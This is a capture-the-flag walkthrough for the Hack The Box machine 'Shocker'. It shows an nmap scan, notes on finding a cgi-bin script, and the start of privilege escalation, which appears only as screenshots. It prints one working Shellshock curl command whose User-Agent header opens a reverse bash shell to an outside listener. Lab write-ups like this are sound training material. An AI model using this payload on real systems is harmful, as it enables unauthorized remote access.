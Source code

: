 # shocker

## nmap scan
```log
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-15 05:50 EDT
Nmap scan report for 10.10.10.56
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 4.2 (95%), Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 4.4 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   123.93 ms 10.10.16.1
2   206.08 ms 10.10.10.56

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.51 seconds

```


## web page
<p align="center">
  <img  src="images/shocker/Pasted image 20210715105154.png">
</p>
![screen](Pasted image 20210715105217.png)

## directory enumeration
![screen](Pasted image 20210715122218.png)

Found a `cgi-bin` folder, maybe its vulnerable to shellshock
('maybe' ? its literally the name of the machine `shock`)

anyway let's enumerate the files insides the folder.

![screen](Pasted image 20210715122453.png)
Found `user.sh` file, let's exploit it

The command I used:
```bash
curl -H 'User-Agent: () { :; }; /bin/bash -c "bash -i >& /dev/tcp/10.10.16.63/4444 0>&1"' http://10.10.10.56/cgi-bin/user.sh
```

Got the shell :
![screen](Pasted image 20210715122748.png)

## Privilege escalation
### shell stabilization
![screen](Pasted image 20210715123008.png)
![screen](Pasted image 20210715123130.png)
